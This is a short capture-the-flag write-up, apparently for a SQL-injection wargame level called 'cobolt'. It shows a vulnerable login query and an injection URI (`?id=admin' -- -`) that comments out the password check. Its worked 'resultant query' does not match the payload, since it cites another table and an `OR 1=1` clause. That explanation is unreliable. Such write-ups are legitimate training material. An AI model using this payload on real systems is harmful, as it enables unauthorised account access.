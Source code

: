 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 2
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/a20d5977-f907-4582-8e92-88ff3b574002)

We are provided with the SQL query:

```sql
select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')`
```

This time the application requires us to query for the id `admin`.

In order to make the result of this query `True`, we can provide the following URI:

```
?id=admin' -- -
```

The resultant query then becomes:

```sql
SELECT id FROM prob_gremlin WHERE id='admin' OR 1=1 -- -' AND pw=md5('')

## Queried part
SELECT id FROM prob_gremlin WHERE id='admin' OR 1=1

## Commented part
AND pw=md5('')
```

Since 1=1 is always true, the result of the `OR` operation will always be `True`.

![2](https://github.com/Kunull/Write-ups/assets/110326359/0e1140d5-c226-41e0-9aee-b022a2b9a28f)
